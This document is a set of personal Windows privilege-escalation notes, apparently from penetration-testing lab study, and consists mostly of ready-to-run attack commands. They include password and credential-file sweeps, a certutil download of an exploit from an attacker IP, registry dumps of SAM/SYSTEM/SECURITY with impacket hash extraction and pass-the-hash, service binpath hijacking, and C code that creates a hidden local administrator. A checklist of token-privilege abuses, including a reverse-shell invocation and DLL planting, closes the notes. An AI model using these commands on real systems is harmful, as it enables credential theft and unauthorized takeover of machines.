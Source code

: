 ## 21082023Mon

```
findstr /SI password *.txt
```

```
findstr /si password *.txt
```

```
C:\Windows\System32>findstr /si password *.txt *.ini *.config
```

### Service Control

```
sc query windefend
```

```
sc queryex type=service
```

### Network Shell

```
netsh advfirewall firewall dump
```

```
netsh firewall show state
```

![[Pasted image 20230822070831.png]]

```
netsh advfirewall show currentprofile
```

![[Pasted image 20230822070650.png]]

## 22082023Tue

## Automated Enumeration Tools
### Executables
- winPEAS.exe https://github.com/carlospolop/PEASS-ng/releases
- Seatbelt.exe (compile) https://github.com/GhostPack/Seatbelt
- Watson.exe (compile) https://github.com/rasta-mouse/Watson
- SharpUp.exe (compile) https://github.com/GhostPack/SharpUp
### PowerShell
- Sherlock.ps1
- PowerUp.ps1
- jaws-enum.ps1
### Other
- windows-exploit-suggester.py (local)
- Exploit Suggester (Metasploit)

## 23082023Wed

```
net group /domain "Domain Admins"
```

```
net group /domain "Domain Controllers"
```

![[Windows Privilege Escalation.png]]

```
wmic computersystem LIST full
```

```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

```
cmdkey /list
```

```
Get-Childitem –Path C:\ -Include *unattend*,*sysprep* -File -Recurse -ErrorAction SilentlyContinue | where {($_.Name -like "*.xml" -or $_.Name -like "*.txt" -or $_.Name -like "*.ini")}
```

```
whoami /all
```

```
whoami /priv
```

```
cd C:\
dir /s/b /A:-D RDCMan.settings == *.rdg == *_history* == httpd.conf == .htpasswd == .gitconfig == .git-credentials == Dockerfile == docker-compose.yml == access_tokens.db == accessTokens.json == azureProfile.json == appcmd.exe == scclient.exe == *.gpg$ == *.pgp$ == *config*.php == elasticsearch.y*ml == kibana.y*ml == *.p12$ == *.cer$ == known_hosts == *id_rsa* == *id_dsa* == *.ovpn == tomcat-users.xml == web.config == *.kdbx == KeePass.config == Ntds.dit == SAM == SYSTEM == security == software == FreeSSHDservice.ini == sysprep.inf == sysprep.xml == *vnc*.ini == *vnc*.c*nf* == *vnc*.txt == *vnc*.xml == php.ini == https.conf == https-xampp.conf == my.ini == my.cnf == access.log == error.log == server.xml == ConsoleHost_history.txt == pagefile.sys == NetSetup.log == iis6.log == AppEvent.Evt == SecEvent.Evt == default.sav == security.sav == software.sav == system.sav == ntuser.dat == index.dat == bash.exe == wsl.exe 2>nul | findstr /v ".dll"
```

```
certutil -urlcache -f http://10.10.14.5/MS10-059.exe ms.exe
```

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

![](Pasted%20image%2020231009024625.png)

![](Pasted%20image%2020231009024654.png)

```
samdump2 SYSTEM SAM
```

```
impacket-secretsdump -sam sam -security security -system system LOCAL
```

![](Pasted%20image%2020231009033039.png)

**Dumping local SAM hashes (uid:rid:lmhash:nthash)**

```
impacket-wmiexec -hashes LMHASH:NTHASH
```

```
sc config "software/service" binpath="\"C:\filelocation\customfile.exe\""
```

```
sc qc software/service
```

```
shutdown /r /t 0
```

*adduser.c*

```
#include <stdlib.h>
int main ()
{
	int i;
	i = system ("net user dave2 password123! /add");
	i = system ("net localgroup administrators dave2 /add");
	return 0;
}
```

```
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

- **Privileges**
    - Do we have SeShutdownPrivilege
        - Could lead to service exploitation.
    - Do we have *SeImpersonatePrivileges*
        - What system are we running on *systeminfo*
            - Can we use JuicyPotatoes, GodPotatos or PrintSpoofer.
    - Do we have *SeBackupPrivilege*, SeRestorePrivilege
        - Extract system and sam files to retrieve local hashes
    - Do we just have *SeRestorePrivilege*
        - Can we take over the administrator directory
            - https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1
        - Can we use SeRestoreAbuse.exe and achieve a reverse shell
            - `.\SeRestoreAbuse.exe "cmd /c powershell.exe -Enc "`
    - Do we have *SeLoadDriverPrivilege*
        - Load a custom driver.
            - Capcom
    - Do we have *SeManageVolumePrivilege*
        - Can we use SeManageVolumeAbuse.exe to add a custom DLL
            - Copy a DLL file into the C:/Windows/System32/wbem location, this file should be called **tzres.dll**, if we run systeminfo it will trigger.


## Unquoted Service Path

```
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

